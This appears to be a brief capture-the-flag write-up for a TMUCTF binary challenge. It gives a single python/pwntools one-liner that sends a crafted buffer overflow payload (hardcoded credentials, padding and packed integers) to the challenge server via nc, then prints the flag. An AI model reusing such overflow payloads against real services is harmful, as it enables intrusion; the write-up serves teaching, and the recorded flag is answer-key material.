

# Challenge Description
<p align="center">
  
</p>
<br>

# Writeup
This challenge just needs some overflows.   
```bash
python2.7 -c "import pwn; print 'AlexTheUser\n' + '4l3x7h3p455w0rd\00' + 'A'*48 + 'AlexTheUser\00' + 'A'*52 + 'A'*12 + pwn.p32(233) + pwn.p32(30) + pwn.p32(187) + pwn.p32(76) + pwn.p32(123)" | nc 194.5.207.113 7020
```   
The flag:
```
TMUCTF{7h3_6375_func710n_15_d4n63r0u5_4nd_5h0uld_n07_b3_u53d}
```
